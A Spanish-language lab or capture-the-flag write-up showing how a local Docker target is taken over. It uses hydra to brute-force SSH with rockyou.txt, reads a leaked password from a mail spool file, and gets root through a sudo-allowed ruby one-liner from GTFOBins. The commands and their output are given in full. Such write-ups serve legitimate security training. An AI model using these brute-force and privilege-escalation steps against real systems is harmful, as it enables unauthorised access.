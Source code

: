 # Herramientas
- Nmap
- Hydra
- GTFOBins
# Procedimiento
Hacemos nuestro escaneo con nmap y podemos ver que están los puerto 22 y 80, revisamos la página y al principio puede parecer que no hay nada, pero...
![[Pasted image 20250715094025.png]]
Si inspeccionamos la página, nos encontramos con esto:
![[Pasted image 20250715094057.png]]

De: Juan
Para: Camilo , te he dejado un correo es importante...

Podemos ver dos posibles usuarios, por lo que empezamos a realizar fuerza bruta con hydra.

Vemos que con juan no resulta nada:
```bash
hydra -l juan -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2    
  
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organization  
s, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).  
  
Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-07-15 09:42:07  
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4  
[WARNING] Restorefile (you have 10 seconds to abort... (use option -I to skip waiting)) from a previous session found  
, to prevent overwriting, ./hydra.restore  
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task  
[DATA] attacking ssh://172.17.0.2:22/  
[STATUS] 31014.00 tries/min, 31014 tries in 00:01h, 14313385 to do in 07:42h, 16 active  
^CThe session file ./hydra.restore was written. Type "hydra -R" to resume session.
```

Pero con camilo sí:
```bash
hydra -l camilo -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2  
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organization  
s, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).  
  
Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-07-15 09:42:33  
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4  
[WARNING] Restorefile (you have 10 seconds to abort... (use option -I to skip waiting)) from a previous session found  
, to prevent overwriting, ./hydra.restore  
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task  
[DATA] attacking ssh://172.17.0.2:22/  
[22][ssh] host: 172.17.0.2   login: camilo   password: password1  
1 of 1 target successfully completed, 1 valid password found  
[WARNING] Writing restore file because 2 final worker threads did not complete until end.  
[ERROR] 2 targets did not resolve or could not be connected  
[ERROR] 0 target did not complete  
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2025-07-15 09:42:44
```

Entramos a la máquina, pero nos da error por un tema de que ya estaba guardado el host anteriormente, por lo que seguimos el siguiente comando:
```
ssh camilo@172.17.0.2  
@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@  
@    WARNING: REMOTE HOST IDENTIFICATION HAS CHANGED!     @  
@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@  
IT IS POSSIBLE THAT SOMEONE IS DOING SOMETHING NASTY!  
Someone could be eavesdropping on you right now (man-in-the-middle attack)!  
It is also possible that a host key has just been changed.  
The fingerprint for the ED25519 key sent by the remote host is  
SHA256:52z4CT20OpL7G8YfPhcdERem6Sq+z8868LngvNGXRlA.  
Please contact your system administrator.  
Add correct host key in /home/mapacheroja/.ssh/known_hosts to get rid of this message.  
Offending ECDSA key in /home/mapacheroja/.ssh/known_hosts:10  
 remove with:  
 ssh-keygen -f '/home/mapacheroja/.ssh/known_hosts' -R '172.17.0.2'  
Host key for 172.17.0.2 has changed and you have requested strict checking.  
Host key verification failed.  

ssh-keygen -f '/home/mapacheroja/.ssh/known_hosts' -R '172.17.0.2'  
```

Procedemos a buscar permisos SUID:
- /: Se busca desde la raíz
- -perm -4000: Mostrar los permisos SUID
- 2>/dev/null: Para no mostrar los errores
```
find / -perm -4000 2>/dev/null
```

No encontramos nada útil:
```
find / -perm -4000 2>/dev/null  
/bin/su  
/bin/mount  
/bin/umount  
/usr/lib/openssh/ssh-keysign  
/usr/lib/dbus-1.0/dbus-daemon-launch-helper  
/usr/bin/chsh  
/usr/bin/chfn  
/usr/bin/passwd  
/usr/bin/newgrp  
/usr/bin/gpasswd  
/usr/bin/sudo
```

Por lo que procedemos a utilizar el comando `find / -name "correo" 2>/dev/null` para encontrar el correo.

No encontramos nada, así que buscamos con "mail" y vemos lo siguiente:
```
find / -name "mail" 2>/dev/null  
/var/spool/mail  
/var/mail
```

Nos vamos a esa carpeta e imprimimos el mensaje que hay:
```
cd /var/spool/mail/camilo/
cat correo.txt
Hola Camilo,  
  
Me voy de vacaciones y no he terminado el trabajo que me dio el jefe. Por si acaso lo pide, aquí tienes la contraseña  
: 2k84dicb
```

Salimos de la consola y volvemos a entrar, esta vez con el usuario de juan y colocamos la contraseña dada. Una vez dentro listamos los permisos que tiene juan
```
sudo -l  
Matching Defaults entries for juan on 89d6c54e265d:  
   env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin  
  
User juan may run the following commands on 89d6c54e265d:  
   (ALL) NOPASSWD: /usr/bin/ruby
```

Como podemos ver, está ruby. Para ello tenemos que ir a GTFOBins y buscar ruby. Está en este [link](https://gtfobins.github.io/gtfobins/ruby/), y usamos el que dice `sudo`.
```
sudo ruby -e 'exec "/bin/sh"'
# whoami
root
```

Con esto ya podemos decir que la máquina fue hackeada y hemos escalado privilegios :)